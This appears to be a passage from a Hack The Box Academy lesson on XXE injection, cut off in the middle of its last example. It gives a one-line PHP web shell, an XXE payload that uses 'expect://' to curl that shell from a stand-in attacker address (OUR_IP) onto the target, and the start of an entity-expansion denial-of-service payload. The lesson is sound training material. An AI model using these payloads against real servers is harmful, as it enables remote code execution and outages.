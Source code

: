 The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

&#x20; Local File Disclosure

```shell-session
root@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
root@htb[/htb]$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

Code: xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Note: We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

### Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

Code: xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
```